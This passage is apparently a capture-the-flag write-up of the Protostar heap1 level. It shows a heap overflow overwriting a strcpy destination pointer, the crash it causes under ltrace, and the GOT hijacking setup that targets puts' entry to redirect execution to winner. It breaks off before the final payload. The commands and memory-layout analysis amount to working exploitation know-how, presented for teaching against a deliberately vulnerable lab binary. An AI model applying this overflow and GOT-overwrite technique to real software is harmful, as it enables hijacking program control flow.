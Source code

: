 (8) 0x0804a010: i1-name-control
(8) 0x0804a018: i1-name

(8) 0x0804a020: i2-control
(4) 0x0804a028: i2-priority
(4) 0x0804a02c: i2-name(addr)

(8) 0x0804a030: i2-name-control
(8) 0x0804a038: i2-name
{% endcodeblock %}

After 20 bytes, we are able to change `i2-name(addr)`, that is used by second `strcpy()`.

{% codeblock %}
user@protostar:~$ ltrace -e strcpy /opt/protostar/bin/heap1 $(ruby -e 'print "A" * 20 + [0x44444444].pack("V") ') 2222
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAADDDD")      = 0x0804a018
strcpy(0x44444444, "2222" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
{% endcodeblock %}

We use `Global Offset Table Hijacking` technique:
{% codeblock %}
user@protostar:~$ objdump -TR /opt/protostar/bin/heap1 

/opt/protostar/bin/heap1:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000  w   D  *UND*	00000000              __gmon_start__
00000000      DF *UND*	00000000  GLIBC_2.0   __libc_start_main
00000000      DF *UND*	00000000  GLIBC_2.0   strcpy
00000000      DF *UND*	00000000  GLIBC_2.0   printf
00000000      DF *UND*	00000000  GLIBC_2.0   time
00000000      DF *UND*	00000000  GLIBC_2.0   malloc
00000000      DF *UND*	00000000  GLIBC_2.0   puts
0804862c g    DO .rodata	00000004  Base        _IO_stdin_used


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
0804974c R_386_GLOB_DAT    __gmon_start__
0804975c R_386_JUMP_SLOT   __gmon_start__
08049760 R_386_JUMP_SLOT   __libc_start_main
08049764 R_386_JUMP_SLOT   strcpy
08049768 R_386_JUMP_SLOT   printf
0804976c R_386_JUMP_SLOT   time
08049770 R_386_JUMP_SLOT   malloc
08049774 R_386_JUMP_SLOT   puts

user@protostar:~$ nm /opt/protostar/bin/heap1 | grep winner
08048494 T winner
{% endcodeblock %}

Goal is to write the value `0x08048494` to the `0x08049774` address.
